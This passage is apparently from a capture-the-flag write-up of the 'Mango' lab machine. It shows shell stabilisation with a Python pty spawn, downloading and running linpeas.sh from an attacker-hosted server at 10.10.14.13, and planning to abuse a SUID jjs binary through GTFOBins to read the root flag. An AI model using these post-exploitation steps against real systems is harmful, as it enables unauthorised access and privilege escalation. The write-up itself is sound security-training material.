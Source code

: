 Cool, that worked! Now we can grab that user.txt flag, after running `python3 -c 'import pty;pty.spawn("/bin/bash")'` to stabilize the shell:

![user_flag.png](../assets/mango_assets/user_flag.png)

### Privilege Escalation

After poking around the box manually for awhile, I wasn't seeing much and decided to upload LinPeas to help out with enumeration. I started a Python web server using `python -m http.server 80` and grabbed the linpeas.sh file using wget:

```text
admin@mango:/tmp$ wget http://10.10.14.13/linpeas.sh
--2023-05-09 16:10:57--  http://10.10.14.13/linpeas.sh
Connecting to 10.10.14.13:80... connected.
HTTP request sent, awaiting response... 200 OK
Length: 776967 (759K) [text/x-sh]
Saving to: ‘linpeas.sh’

linpeas.sh          100%[===================>] 758.76K  1.13MB/s    in 0.7s    

2023-05-09 16:10:58 (1.13 MB/s) - ‘linpeas.sh’ saved [776967/776967]

admin@mango:/tmp$ chmod +x linpeas.sh
admin@mango:/tmp$ ./linpeas.sh
```

LinPeas quickly finds that `/usr/lib/jvm/java-11-openjdk-amd64/bin/jjs` has the SUID bit set.

![linpeas.sh](../assets/mango_assets/linpeas.sh)

Lets see if we can use https://gtfobins.github.io/ here. Looks like there is an interesting series of commands we can run to use jjs to read files. Lets try to use this to read the root.txt file:

![gtfobins.png](../assets/mango_assets/gtfobins.png)
